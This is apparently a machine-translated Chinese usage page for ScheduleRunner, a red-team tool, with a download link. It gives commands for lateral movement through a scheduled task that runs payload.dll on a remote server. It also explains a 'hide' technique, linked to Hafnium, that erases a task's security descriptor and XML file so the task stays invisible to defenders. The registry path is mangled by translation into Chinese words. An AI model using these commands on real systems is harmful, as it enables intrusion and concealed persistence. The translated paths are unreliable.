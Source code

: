 **查询调度任务中的所有子文件夹**

`**ScheduleRunner.exe /method:queryfolders**`

**使用特定用户帐户，通过预定任务向远程服务器执行横向移动**

`**ScheduleRunner.exe /method:move /taskname:Demo /remoteserver:TARGET-PC01 /program:rundll32.exe /argument:c:\temp\payload.dll /user:netero1010**`

**使用隐藏计划任务技术创建一个名为“清理”的计划任务:**

`**ScheduleRunner.exe /method:create /taskname:Cleanup /trigger:daily /starttime:23:30 /program:calc.exe /description:"Some description" /author:netero1010 /technique:hide**`

**删除使用了隐藏计划任务技术的名为“清理”的计划任务:**

`**ScheduleRunner.exe /method:delete /taskname:Cl**eanup /technique:hide`

## 隐藏预定任务技术

这种技术曾被威胁行动者铪使用，最近被微软发现。它的目的是使被调度的任务不被工具查询，也不被任务调度器看到。

要使用此技术，您需要拥有“NT 权限/系统”, ScheduleRunner 将为您完成以下工作:

1.  从“HKLM \软件\微软\ Windows NT \当前版本\计划\任务缓存\树\[任务名]”中删除“SD”值
2.  删除计划任务 XML 文件“C:\ Windows \ System32 \ Tasks \[任务名]”

要删除使用此技术创建的计划任务，需要在删除方法中添加“/technique:hide”以正确删除它。

### 这种技术的缺点

即使通过注册表删除了任务，该任务仍将继续运行，直到下次系统重新启动。因此，最好不要在您的操作服务器中使用这种技术。

[**Download**](https://github.com/netero1010/ScheduleRunner)